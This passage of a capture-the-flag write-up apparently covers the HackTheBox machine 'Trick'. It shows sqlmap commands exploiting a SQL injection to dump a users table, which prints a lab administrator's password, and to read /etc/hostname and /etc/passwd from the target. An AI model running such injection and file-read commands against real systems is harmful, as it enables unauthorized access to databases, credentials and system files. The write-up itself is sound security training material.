 

I'll dump the `users` table:



    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump
    ...[snip]...
    Database: payroll_db
    Table: users
    [1 entry]
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    | id | doctor_id | name          | type | address | contact | password              | username   |
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    | 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
    +----+-----------+---------------+------+---------+---------+-----------------------+------------+
    ...[snip]...



One user, with username Enemigosss, and password
"SuperGucciRainbowCake". I'll note these both.

#### File Read with sqlmap

SQL can be configured such that I can read files through the injection.
`sqlmap` allows this with the `--file-read` parameter. It works:



    oxdf@hacky$ sqlmap -r login.req --batch --threads 10 --file-read=/etc/hostname
    ...[snip]...
    [*] /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname (same file)
    ...[snip]...
    oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_hostname 
    trick



I'll read the `/etc/passwd` file the same way. It takes a few minutes,
but it comes back. I'll look for users that have a shell set (removing
the machine accounts), and see a couple:



    oxdf@hacky$ cat /home/oxdf/.sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep 'sh$'
    root:x:0:0:root:/root:/bin/bash
    michael:x:1001:1001::/home/michael:/bin/bash



### Find Marketing Subdomain

#### Via SQL Injection

The intended path for this box is to use the SQL injection file read to
get the NGINX config. I know it's NGINX from the initial enumeration.
The default config file would be at `/etc/nginx/sites-enabled/default`.
I'll pull that file with `sqlmap`, and it returns information about
three virtual hosts (vhosts).
